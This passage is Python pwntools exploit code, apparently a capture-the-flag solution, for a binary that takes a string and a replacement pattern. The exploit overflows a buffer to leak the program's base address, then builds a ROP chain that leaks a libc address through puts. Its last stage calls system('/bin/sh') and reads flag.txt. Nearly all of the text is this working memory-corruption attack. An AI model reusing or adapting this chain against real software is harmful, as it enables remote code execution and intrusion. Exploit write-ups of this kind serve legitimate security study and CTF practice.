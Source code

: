 ```py
    pattern = prefix + slash + _match + slash + replace + slash
    return pattern

def exploit():

    # Initial buffer setup
    padding_string = b"A" * 124 + b"B" * 4
    _match = b"B" * 4

    # Stage 1: Leak executable base address
    replace = b"C" * 76 + p8(0x4e)
    pattern = parse(_match, replace)
    sa(b"Input:", padding_string)
    sa(b"Replacement:", pattern)
    ru(b"result:\n")
    data = rl()

    # Calculate executable base address
    exe.address = u64(data[200:200 + 6].ljust(8, b"\x00")) - exe.sym["main"]
    slog("Exe base", exe.address)

    # Setup ROP chain for libc leak
    rop = ROP(exe)
    pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
    ret = pop_rdi + 1

    # Stage 2: Leak libc address using puts
    payload = flat([
        pop_rdi,
        exe.got["puts"],
        exe.plt["puts"],
        exe.sym["main"]
    ])
    replace = b"C" * 76 + payload
    pattern = parse(_match, replace)

    sleep(1)
    sa(b"Input:", padding_string)
    sa(b"Replacement:", pattern)
    ru(b"result:\n")
    data = rl()

    # Calculate libc base address
    libc.address = u64(data[206:].strip(b"\n").ljust(8, b"\x00")) - libc.sym["puts"]
    slog("libc base", libc.address)

    # Stage 3: Execute system("/bin/sh")
    sh = next(libc.search(b"/bin/sh\0"))
    system = libc.sym["system"]
    payload = flat([
        pop_rdi,
        sh,
        system
    ])
    replace = b"C" * 76 + payload
    pattern = parse(_match, replace)

    sleep(1)
    sa(b"Input:", padding_string)
    sa(b"Replacement:", pattern)

    sl(b"cat flag.txt")  # Get the flag

```
